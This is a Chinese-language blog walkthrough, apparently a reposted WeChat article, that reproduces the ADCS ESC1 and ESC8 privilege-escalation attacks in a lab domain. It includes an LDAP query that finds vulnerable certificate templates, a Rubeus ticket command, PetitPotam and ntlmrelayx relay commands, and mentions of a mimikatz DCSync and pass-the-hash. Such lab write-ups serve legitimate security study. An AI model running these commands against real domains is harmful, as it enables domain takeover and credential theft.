 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PuMpRTiHjkXUJrmmwqG_mg)

**对原理感兴趣的可以去**

**https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf**

**看原文，这里只记录复现过程  
**

**ADCS 漏洞 --ESC1**

在 ADCS 中，错误配置会导致普通域用户到域管理员的提权。主要体现在证书模板这里，在证书模板中，我们可以设置应用程序的策略。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEuszSqqiaVSaNpzYCNMKUBbAqicEiawO24azBj9AxD1S4SCDtxlKflOmBw4Q/640?wx_fmt=png)

我们比较关心的如下：

```
Client Authentication (OID 1.3.6.1.5.5.7.3.2)
PKINIT Client Authentication (1.3.6.1.5.2.3.4)
Smart Card Logon (OID 1.3.6.1.4.1.311.20.2.2)
Any Purpose (OID 2.5.29.37.0)
```

这些可以使得我们拥有请求票据的功能，然后就是 SAN 的模拟，SAN 允许我们使用 UPN 来指定用户，来达到用户模拟的目的。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusibFBxdTfeicyDdxTJQOcgB6KmmcoTiaUouw2X8gZjmtG2U8a5suLTRWkw/640?wx_fmt=png)

其 LDAP 查询语句如下：

```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentflag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-rasignature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextend edkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4) (pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspkicertificate-name-flag:1.2.840.113556.1.4.804:=1))
```

使用其发布的测试工具，PSPKIAudit 测试显示存在 ESC1 漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusF5FzobuSg4AQFlMRiaHico1Gzgvs2zNOL7MQOz3pwZKydQuWqDSCwGsg/640?wx_fmt=png)

攻击步骤

首先申请一张证书，并将 upn 名称改成域管

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEuseln3QOd0gVxUxEm4LSY1FzbT9TlBjlZb1KykY1FmwuTn7lh0dkRHkA/640?wx_fmt=png)

然后导出证书

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusytWHicMECIIIE2fjGkX80Jo9cJ039yz40o4W2pF8LLwRzdqFicRS1LeA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusR4kPiaLM549BTYV1eiamgf9sPNgoQyAuwMicwV4MIF2CedUmQW18eDnpA/640?wx_fmt=png)

用密码导出

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusvRpibvZaPpwv0SQrmLLj6ib6TicP1Lk6bDYjPEwVYb4HS2T8oLn5SCULg/640?wx_fmt=png)

然后使用 rubeus 攻击。

```
Rubeus.exe asktgt /user:administrator /certificate:3.pfx /password:123456 /ptt
```

*   /user：模拟的账户
    
*   /certificate：申请的证书
    
*   /password：证书密码
    

成功获取域控权限

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEus5BDTQQplXCtm1RRAq9U76VnyMK1D9a9pJGXgbibkWiaOGtfsibSrh06XA/640?wx_fmt=png)

**ADCS 漏洞 --ESC8**

也就是你们说的 adcs relay。

ESC8 是一个 http 的 ntlm relay，原因在于 ADCS 的认证中支持 ntlm 认证，再具体的自己看白皮书。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEus61dyQMHZ22Yndu7VYFld6eDswLicy8ETR1VQaib4GcmZfvmI1KFQRv6A/640?wx_fmt=png)

默认即存在

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusEA6ZZU9xdYO1LmicSj049hfTrCcCR6lop6l5dYjzYBstWQ5yDhs2iaPg/640?wx_fmt=png)

下面开始攻击复现，首先我们需要搭建一个辅助域控

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEus3dbLGMY9vJpYKBdjUtjO9A0cbgM4NOXAyEibOR79RAZKSD07iaqpUVNQ/640?wx_fmt=png)

勾选域服务

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusnWp2JGVTaibRiaPgsIEo0gjwV47BcMBmhicJU7fdL67t59bxhgbyib4SoA/640?wx_fmt=png)

安装即可，同理设置为域控

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusN0Mlg4qfaibA2tJ2SvptM7keVsDZAI2aJ9NF6OtZVEwJHRxicabFiaOQw/640?wx_fmt=png)

选择添加到现有域

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusddSS2WqcPDIKbBMGPt43VcE1hwxp3ntjdndTMagyEWIvBf2VrWdJ0g/640?wx_fmt=png)

选择从主域复制

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusUdnoYw8qO041osk2pxSH88kWo0dbw0ceCDkd7tXcPpMpLibHakm1fmQ/640?wx_fmt=png)

重启后测试

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusomz1tR3lv5KfOGqc0HZcxPfAXHqxBkaFYWpEViaQTSTLYuWRqgRNVjw/640?wx_fmt=png)

下面即可开始攻击。

```
python3 Petitpotam.py -u '' -d '' -p '' "ntlmrelay address" "DC02 address"
```

```
ntlmrelayx.py -t http://adcs/certsrv/certfnsh.asp -smb2support --adcs --template 'DCTest'
```

获取到证书

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusicIyXgN52JHtaufPz2aom5IJLCpMKrrJsxgX6wj4MbIU9ibiafLGS6oFA/640?wx_fmt=png)

然后使用证书请求 DC02$ 的票据

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusm10F2lFVOHn6icsosEH5z9ngllAic2Vs464t4oMLkVbeibZO5x6WHDb0w/640?wx_fmt=png)

获取票据成功

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEus9OpKNuiaVQg0RunjzP5gHvVBL5sJ9L6fmwtWkSTu3pwRicyhZ0DnYYYA/640?wx_fmt=png)

mimikatz 进行 dcsync

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEus4YdvZS2k7JfXhMkbXLq0QezIPWsXT7pSEkKZrujNzHmZoXWIojrqnQ/640?wx_fmt=png)

然后进行 pth 攻击，获取主域控权限

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08UdUyrShoub2KTEziaxibicEusnu0JEOKMqwSbXJAbHOLE5XRynpyg5ibtWqhtRPCP3VDYPZEp3tKqRcA/640?wx_fmt=png)

出现错误的话可以参考：

https://github.com/SecureAuthCorp/impacket/pull/1101

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)